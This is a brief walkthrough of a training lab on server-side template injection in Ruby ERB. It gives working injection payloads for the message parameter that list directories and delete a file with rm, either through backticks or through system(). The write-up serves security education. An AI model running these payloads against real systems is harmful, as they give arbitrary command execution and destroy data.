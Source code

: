 # Lab: Basic server-side template injection

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.



## Steps

* Visit the Target Website
* In the /?message= parameter enter the ruby payload

```
<%= `ls /` %>
<%= `ls /home/carlos` %>
<%= `rm /home/carlos/morale.txt` %>

OR

<%= system("rm /home/carlos/morale.txt") %>
```

* Congrats! You have solved the lab.

